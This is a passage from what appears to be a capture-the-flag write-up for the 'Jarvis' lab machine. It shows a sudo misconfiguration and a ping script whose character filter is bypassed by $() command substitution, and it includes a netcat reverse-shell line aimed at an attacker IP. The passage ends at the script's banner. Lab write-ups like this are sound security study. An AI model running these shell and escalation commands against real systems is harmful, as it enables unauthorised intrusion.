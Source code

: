 drwxr-xr-x 2 pepper pepper 4096 Oct  2 13:38 .ssh
$ cat user	
cat: user: No such file or directory
$ cat user.txt
cat: user.txt: Permission denied
{% endhighlight %}

<p>Doh! So close... At least we know the file is there. We now also know we need try and pivot to the user pepper. After a few minutes of poking around found something interesting with the sudo list.</p>

{% highlight shell %}
$ sudo -l
Matching Defaults entries for www-data on jarvis:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on jarvis:
    (pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py
{% endhighlight %}

<p>So we are trying to pivot to user and there just happens to be a defined rule that we can execute as that user? That seems promising. After a bit of poking through the script it seems that running <code>simpler.py</code> essentially pings a host that you pass as a parameter. It also looks like there is some forbidden character filters to prevent chaining commands - but that should not stop us.</p>

{% highlight python %}
def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)
{% endhighlight %}

<p>My initial thoughts were to leverage character encoding. I wanted to try and chain a <i>; nc -e /bin/sh 10.10.xxx.xxx 1337</i> on the ping command. After attempting a few different variations, including unicode and hex, without success I stumbled on to an <a href="https://packetstormsecurity.com/files/144749/Infoblox-NetMRI-7.1.4-Shell-Escape-Privilege-Escalation.html">excellent article</a> that seemed quite in line with what I was trying to achieve.</p>

{% highlight shell %}
A bash command can then be encapsulated using the $() technique. 
In the case below, we simply call the bash binary.
        
        NetMRI-VM-AD30-5C6CE> ping $(/bin/bash)
{% endhighlight %}

<p>So instead of trying to chain a command to the built-in ping how about encapsulating instead? Seems promising. Let's upload another python shell script and attempt to call the shell script as an encapsulated command.</p>

{% highlight shell %}
$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************
